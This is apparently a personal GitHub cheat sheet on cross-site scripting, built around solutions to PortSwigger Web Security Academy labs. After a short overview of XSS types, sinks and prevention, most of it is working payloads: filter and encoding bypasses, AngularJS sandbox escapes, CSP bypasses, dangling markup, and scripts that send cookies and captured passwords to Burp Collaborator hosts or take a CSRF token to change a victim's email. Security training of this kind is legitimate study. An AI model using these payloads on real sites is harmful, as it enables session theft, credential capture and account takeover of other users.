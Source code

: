 # XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting

# 🛡 XSS Cheat Sheet (Reflected, Stored, DOM)

## 1️⃣ What is XSS?
Cross-Site Scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users.

---

## 2️⃣ Types of XSS

| **Type**       | **Trigger** | **Where Payload Lives**       | **Example URL / Vector** |
|----------------|-------------|--------------------------------|--------------------------|
| **Reflected**  | Immediate   | In the request & response      | `https://victim.com/?q=<script>alert(1)</script>` |
| **Stored**     | Persistent  | Database / Server storage      | Malicious blog comment `<script>alert(1)</script>` |
| **DOM-Based**  | Client-side | In browser JS, from sources    | `https://victim.com/#<img src=x onerror=alert(1)>` |

---

## 3️⃣ Common Payloads

| **Context**       | **Payload** |
|-------------------|-------------|
| Basic HTML/JS     | `<script>alert(1)</script>` |
| Image Error Event | `<img src=x onerror=alert(1)>` |
| Anchor Tag        | `<a href=javascript:alert(1)>Click</a>` |
| Inline SVG        | `<svg onload=alert(1)>` |
| Onmouseover Event | `<div onmouseover=alert(1)>Hover me</div>` |
| DOM URL Fragment  | `#<img src=x onerror=alert(1)>` |

---

## 4️⃣ Testing Tips
- **Reflected XSS:** Check query parameters, form submissions, search fields.
- **Stored XSS:** Test comment boxes, profile descriptions, message boards.
- **DOM XSS:** Look for JS that takes `location`, `document.cookie`, `document.referrer` and writes to `innerHTML`, `document.write()`, or `eval()`.

---

## 5️⃣ Sources & Sinks (DOM XSS)
**Sources:**  
- `location`, `document.URL`, `document.cookie`, `document.referrer`, `window.name`, `localStorage`, `sessionStorage`

**Sinks:**  
- `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout()` (string), `Function()`, `element.src`

---

## 6️⃣ Prevention
- **Escape output** for HTML, JS, CSS contexts.
- **Use safe DOM APIs** (`textContent` instead of `innerHTML`).
- **Validate input** and reject dangerous patterns.
- **Enable CSP** (Content Security Policy).
- **Use HTTPOnly cookies** for session tokens.
- **Avoid dangerous functions** (`eval()`, `Function()`).

---

## 7️⃣ Quick Exploit Examples

### Reflected
```html
https://victim.com/?name=<script>alert(1)</script>



### LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



### Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



### Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### LAB: Reflected XSS into a JavaScript string with angle brackets HTML encoded

When you’re dealing with Reflected XSS into a JavaScript string, and angle brackets < > are HTML-encoded or filtered, you can still exploit XSS without any HTML tags.

```
";alert(1);//         // closes quote and runs JS
'+alert(1)+'         // using concatenation
'-alert(1)-'         // works too
"/1/+alert(1)//      // division with alert
"/a/+alert(1)//      // forces type coercion
"+alert(1)+""        // string concat, safe from HTML filter
"+alert(String.fromCharCode(88,83,83))+"
```


### LAB: DOM XSS in document.write sink using source location.search inside a select element

payload:
```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```

### LAB:  DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
$scope
$watch $ON $eval $emit $apply $digest
payload:
```
{{$on.constructor('alert(1)')()}}
{{$watch.constructor('alert(1)')()}}
```


### LAB: Reflected DOM XSS
payload:
```
\"-alert(1)}//
\"+alert(1)}//
\"&alert(1)}//
\"|alert(1)}//
```

### Lab: Stored DOM XSS
payload:
```
<><img src=1 onerror=alert(1)>
```


### Reflected XSS into HTML context with most tags and attributes blocked

<iframe src="https:///0af8005f03c81c828041176b003b001f.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'>



### Reflected XSS into HTML context with all tags blocked except custom ones

```
<robin onclick=alert(document.cookie)>
<robin onclick=alert(1)>

<script>
location = 'https://0a5400970474591680c31759002a0079.web-security-academy.net/?search=<robin id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

### Lab: Reflected XSS with some SVG markup allowed
```
<svg id=x onbegin=alert(1)>
<svg><animatetransform onbegin=alert(1)>   
```
### LAB:  Reflected XSS in canonical link tag
```
In URL add at end : 
/?'accesskey='x'onclick='alert(1)
```


### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
```
</script><script>alert(1)</script>

```

### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```
\'-alert(1)//
\'+alert(1)//
```

### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
http://robin.com/?&apos;-alert(1)-&apos;
http://robin.com/?&#39;+alert(1)+&#39;
http://robin.com/?&#x27;+alert(1)+&#x27;

```
### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
${alert(1)}
```

### Lab: Exploiting cross-site scripting to steal cookies

submit the following payload in a blog comment: 
payload
```
use Burp Collaborator :: 

<script>
fetch('https://m0nv6rd5ltolzbtmrjxa6vvz1q7hv7jw.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
##### Alternative  Exploiting XSS to bypass CSRF defenses
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### Lab: Exploiting cross-site scripting to capture passwords
```

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ik6rqnx15p8hj7dibfh6qrfvlmrdf43t.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


### Lab: Exploiting XSS to bypass CSRF defenses
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### Lab: Reflected XSS with AngularJS sandbox escape without strings

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings)
payload
```
toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)


toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

```

### Lab: Reflected XSS with AngularJS sandbox escape and CSP
```
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';
</script>



<script>
location='https://0a91009e037b43e2805e03310060009f.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>

```

### Lab: Reflected XSS with event handlers and href attributes blocked
```
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```


### Lab: Reflected XSS in a JavaScript URL with some characters blocked
```
href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=4'}).finally(_ => window.location = '/')"



https://0a3000ba04e4d0318287746200af00a3.web-security-academy.net/post?postId=3&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'




post?postId=3&'},x=x=>{{onerror=alert}throw/**/1337},toString=x,window+'',{x:'
```
 ### Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

```
To get victim CSRF token paste this in exploit sever : 
<script>
location='https://0a2d001b0465062e817dacb10077004f.web-security-academy.net/my-account?email="></form><form class="login_form" name="myform" action="https://exploit-0a42007f040406b181c4ab1601310061.exploit-server.net/exploit" method="GET"><button class="button" type="submit">Click</button';
</script>


CSRF PoC - generated by Burp Suite Professional

Pate the HTML code in exploit sever :: Then deliver 


```

### Lab: Reflected XSS protected by CSP, with CSP bypass

```
/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```